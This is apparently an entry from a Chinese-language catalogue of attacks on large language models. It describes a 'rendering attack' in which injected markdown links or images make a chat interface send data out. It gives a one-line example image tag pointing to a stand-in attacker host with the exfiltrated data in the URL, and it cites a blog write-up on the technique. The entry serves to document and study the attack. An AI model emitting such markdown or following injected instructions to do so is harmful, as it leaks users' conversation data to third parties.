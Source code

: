 # 渲染攻击
## 描述
利用大模型会话UI的渲染功能，通过注入markdown链接或图片等方式进行数据泄露
## 示例
```
![data exfiltration in progress](https://attacker/q=*exfil_data*)
```
## 参考
- [ChatGPT Plugins: Data Exfiltration via Images & Cross Plugin Request Forgery](https://embracethered.com/blog/posts/2023/chatgpt-webpilot-data-exfil-via-markdown-injection/)
